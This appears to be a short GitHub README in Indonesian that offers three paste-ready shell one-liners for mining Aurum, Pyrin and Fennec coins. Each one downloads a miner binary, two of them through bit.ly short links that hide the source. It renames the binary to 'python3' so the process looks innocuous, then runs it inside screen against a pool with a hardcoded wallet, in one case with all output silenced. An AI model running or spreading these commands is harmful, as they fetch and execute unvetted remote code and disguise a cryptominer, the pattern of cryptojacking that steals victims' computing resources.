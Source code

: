 # POEK SAGALANA
BUKAN MANUSIA BAIK, BUKAN JUGA MANUSIA JAHAT
===========================================================================
# DOT AURUM
```
apt install screen -y && wget https://bit.ly/kontolrum && tar -xvf kontolrum && rm kontolrum && cd SRBMiner-Multi-2-4-7 && mv SRBMiner-MULTI python3 && mv python3* ~/ && cd .. && rm -rvf SRBMiner-Multi-2-4-7 && cd ~/ && screen ./python3 --algorithm aurum --pool stratum-asia.rplant.xyz:7114 --wallet waf1qs7djrfr2kj4w8qkylva5tr24500l3nael0l34g.DOT --keepalive true
```
===========================================================================
# DOT PYRIN
```
apt install srceen -y && wget bit.ly/dotgpulol && tar -xf dotgpulol && rm dotgpulol && cd 1.84 && mv lolMiner python3 && mv python3* ~/ && cd .. && rm -rvf 1.84 && cd ~/ && screen ./python3 -a PYRIN --pool kr.pyrin.herominers.com:1177 --user pyrin:qq5fnz6aelfdruhshjpul598fxyeqfkjh86cvypt2902mghd0ql7gy7g799ff.DOT --no-cl > /dev/null 2>&1
```
===========================================================================
# DOT FENNEC
```
apt install screen -y && wget https://github.com/cpu-pool/cpuminer-opt-cpupower/releases/download/1.4/Cpuminer-opt-cpu-pool-linux64.tar.gz && tar -xf Cpuminer-opt-cpu-pool-linux64.tar.gz && rm Cpuminer-opt-cpu-pool-linux64.tar.gz && mv cpuminer python3 && mv python3* ~/ && rm -r ./* && cd ~/ && screen ./python3 -a yescryptr16 -o yescryptR16.asia.mine.zergpool.com:6333 -u FaVNktSU4RWiM5oU1PbThRaW85TG2P8ZZc -p c=FNNC,mc=FNNC,m=solo,ID=DOT
```
